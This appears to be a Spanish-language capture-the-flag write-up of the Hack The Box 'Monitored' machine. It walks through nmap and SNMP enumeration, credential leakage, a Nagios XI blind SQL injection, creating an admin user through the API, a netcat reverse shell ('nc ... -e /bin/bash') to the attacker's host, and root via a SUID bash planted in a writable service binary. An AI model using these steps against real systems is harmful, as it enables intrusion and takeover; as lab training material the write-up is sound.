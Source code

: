 # Monitored Writeup

Escaneo de nmap para ecnontrar puertos

~~~bash
sudo nmap 10.10.11.248 -p- -sS --min-rate 5000 -n -vvv -Pn
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
389/tcp  open  ldap    syn-ack ttl 63
443/tcp  open  https   syn-ack ttl 63
5667/tcp open  unknown syn-ack ttl 63
sudo nmap 10.10.11.248 -sVC -p 22,80,389,443,5667
[sudo] password for h4m1: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-26 16:03 CST
Nmap scan report for monitored.htb (10.10.11.248)
Host is up (0.069s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
5667/tcp open  tcpwrapped
~~~

Entramos al puerto 443 y vemos un panel de login.

(![Pasted image 20240226163529.png](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240226163529.png))

Enumeramos con ffuf

~~~bash
ffuf -c -t 200 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://monitored.htb/nagiosxi/FUZZ/

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://monitored.htb/nagiosxi/FUZZ/
 :: Wordlist         : FUZZ: /home/h4m1/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 84ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 485ms]
tools                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 394ms]
# This work is licensed under the Creative Commons [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 463ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Copyright 2007 James Fisher [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 543ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 544ms]
# on at least 2 different hosts [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 546ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 581ms]
# directory-list-2.3-medium.txt [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Priority ordered case-sensitive list, where entries were found [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 603ms]
reports                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 367ms]
admin                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 417ms]
account                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 327ms]
mobile                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 423ms]
help                    [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 530ms]
includes                [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 80ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
db                      [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 79ms]
about                   [Status: 200, Size: 18068, Words: 3095, Lines: 310, Duration: 1028ms]
api                     [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 97ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 465ms]
config                  [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 189ms]
views                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 111ms]
sounds                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 81ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 136ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 503ms]
~~~


Enumeramos la API

~~~bash
Hay un authenticate, pero nadamás
~~~

Vamos a ver UDP, porque esto parece un rabbit hole, escaneamos UDP y encontramos SNMP

~~~bash
sudo nmap -sU monitored.htb  
sudo nmap --script "snmp* and not snmp-brute" monitored.htb -sU -p 161
~~~

Encontramos mucha información para analizarla más lentamente usamos SNMPWALK

~~~bash
snmpwalk -v1 -c public monitored.htb > SNMPOUTPUT

HOST-RESOURCES-MIB::hrSWRunParameters.1406 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh <user> <password>"
~~~

Al parecer en ninguna parte podemos autenticarnos con estas credenciales, menos en un lugar, en la API

~~~bash
curl -s -X POST 'https://monitored.htb/nagiosxi/api/v1/authenticate/' -k -d "username=<user>password=<password>"
~~~

Posteriormente, podemos utilizar el token que nos genera en la app web

~~~url
https://monitored.htb/nagiosxi/login.php?token=873959fc95b5f1dac4a388c940fa0cf54198787a
~~~

Posteriormente parece que no somos administradores, pero logramos ver que se está corriendo NagiosXI 5.11.0, vemos que hay varias vulnerabilidades, la funcional es la sqli...

https://vuldb.com/?id.239985

Podemos ver que es aprovechándonos de lo siguiente:

~~~url
/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3
~~~

Con esto me pongo a probar la vulnerabilidad en burpsuite y posteriormente cree un script, parece ser una blind sqli

![Imagen](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228170012.png)

Adjunto también el [script](https://github.com/Hamibubu/CVE-2023-48084) con el que consigo dumpear todo

Después de un rato encuentro que el hash no es posible crackear pero hay api key, investigando, con esa api key es posible crear un usuario con privilegios de administrador

https://support.nagios.com/forum/viewtopic.php?p=276220
https://support.nagios.com/forum/viewtopic.php?f=16&t=42923

~~~bash
curl -XPOST "http://monitored.htb/nagiosxi/api/v1/system/user?apikey=<api_key>&pretty=1" -d "username=hackerman&password=1234&name=HackerMan&email=hacker@monitored.htb&auth_level=admin" -k
~~~

Con esto gano admin access y hay una RCE que se puede aprovecharse, podemos crear comandos que queramos

![Pasted image 20240228170903.png](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228170903.png)

Aplicamos la configuración y ahora escuchamos con netcat

~~~bash
nc -lvnp 6666
~~~

![IMG](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228171117.png)

Ejecutamos el comando con, netcat al parecer es con el que funciona `nc 10.10.15.2 6666 -e /bin/bash`

Llegamos ahora sí al user, comenzamos a hacer un reconocimiento, ejecutamos sudo -l y vemos lo siguiente


~~~bash
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
~~~

Hay gran cantidad de binarios y podemos manejarlos al antojo

~~~bash
# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
~~~

Tenemos varios servicios que podemos manejar, en base a esto podemos buscar estos 

~~~bash
echo '"postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"' | tr -d '"' | tr " " "\n" > services

nagios@monitored:~$ while read -r serv; do find / -writable -name "$serv" 2>/dev/null; done < services
/usr/local/nagios/bin/nagios
/home/nagios
/usr/local/nagios/bin/npcd
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
~~~

Podemos ver que podemos modificar nagios, lo podemos borrar y hacer que haga cosas, detenemos el servicio, lo borramos, cambiamos por un script de bash que nos genere una bash con permisos suid

~~~
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop nagios
nagios@monitored:~$ rm /usr/local/nagios/bin/nagios
nagios@monitored:~$ nano /usr/local/nagios/bin/nagios
nagios@monitored:~$ chmod 774 /usr/local/nagios/bin/nagios
nagios@monitored:~$ cat /usr/local/nagios/bin/nagios
#!/bin/bash
chmod u+s /bin/bash
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 32 Feb 28 18:39 /usr/local/nagios/bin/nagios
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.
nagios@monitored:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
nagios@monitored:~$ bash -p
bash-5.1# whoami
root
bash-5.1# 
~~~

Volvemos a correr eso y con ello ganamos el root de una forma sencilla
